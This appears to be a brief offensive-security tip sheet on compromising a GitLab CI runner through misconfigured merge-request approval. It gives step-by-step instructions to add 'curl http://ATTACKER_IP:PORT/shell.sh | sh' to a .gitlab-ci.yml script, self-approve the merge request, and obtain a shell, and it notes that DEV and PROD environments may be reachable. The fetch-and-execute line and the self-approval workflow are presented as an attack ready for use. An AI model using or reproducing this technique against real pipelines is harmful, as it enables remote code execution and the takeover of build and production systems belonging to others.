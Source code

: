 # Gitlab runner compromise

## TIP: Depending on the context the runner is running, you may even compromise DEV and PROD environments respectively.

# MISCONFIGURED ACCESS GATES

## EXAMPLE:

#### 1) Update the .gitlab-ci.yml file with 

    "curl http://ATTACKER_IP:PORT/shell.sh | sh" 
    
#### on the script paragraph.

#### 2) Commit changes

#### 3) Create merge request

#### 4) Approval is OPTIONAL (Obviously this is a logic flaw of Gitlab) so we can approve our own merge requests without restrictions

#### 5) Enjoy your shell
